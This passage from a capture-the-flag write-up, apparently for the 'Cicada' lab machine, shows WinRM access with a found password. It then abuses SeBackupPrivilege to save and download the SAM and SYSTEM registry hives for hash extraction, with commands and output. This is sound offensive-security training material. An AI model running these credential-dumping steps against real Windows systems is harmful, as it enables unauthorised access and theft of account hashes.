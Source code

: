 ## Interactive access: WinRM

Testing Emily's credentials for interactive access:

```bash
nxc winrm 10.129.231.149 -u emily.oscars  -p 'Q!3@Lp#M6b*7t*Vt'
WINRM       10.129.231.149  5985   CICADA-DC        [*] Windows Server 2022 Build 20348 (name:CICADA-DC) (domain:cicada.htb)
WINRM       10.129.231.149  5985   CICADA-DC        [+] cicada.htb\emily.oscars:Q!3@Lp#M6b*7t*Vt (Pwn3d!)
```

I used `evil-winrm` to get an interactive shell:

```bash
evil-winrm -i 10.129.231.149 -u emily.oscars -p 'Q!3@Lp#M6b*7t*Vt'
PS C:\Users\emily.oscars.CICADA\Documents>
```

Checking token privileges with `whoami /priv` revealed:
```bash
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeBackupPrivilege             Back up files and directories  Enabled
SeRestorePrivilege            Restore files and directories  Enabled
SeShutdownPrivilege           Shut down the system           Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
```

`SeBackupPrivilege` is the important one here. if we can enable and use it we can save registry hives and extract local SAM hashes.

## From `SeBackupPrivilege` to SYSTEM

I followed the common `SeBackupPrivilege` &rarr; dump SAM [trick](https://github.com/gtworek/Priv2Admin/blob/master/SeBackupPrivilege.md):


Export registry hives:

  ```powershell
  cmd /c "reg save HKLM\SAM SAM & reg save HKLM\SYSTEM SYSTEM"
  # Both files saved successfully in current directory
  ```

Download the saved `SAM` and `SYSTEM` files via the WinRM session (Evil-WinRM has `download`).

  ```shell
  *Evil-WinRM* PS C:\Users\emily.oscars.CICADA\Documents> ls

      Directory: C:\Users\emily.oscars.CICADA\Documents


  Mode                 LastWriteTime         Length Name
  ----                 -------------         ------ ----
  -a----         10/1/2025   3:38 AM          49152 SAM
  -a----         10/1/2025   3:38 AM       18558976 SYSTEM


  *Evil-WinRM* PS C:\Users\emily.oscars.CICADA\Documents> download SAM

  Info: Downloading C:\Users\emily.oscars.CICADA\Documents\SAM to SAM

  ```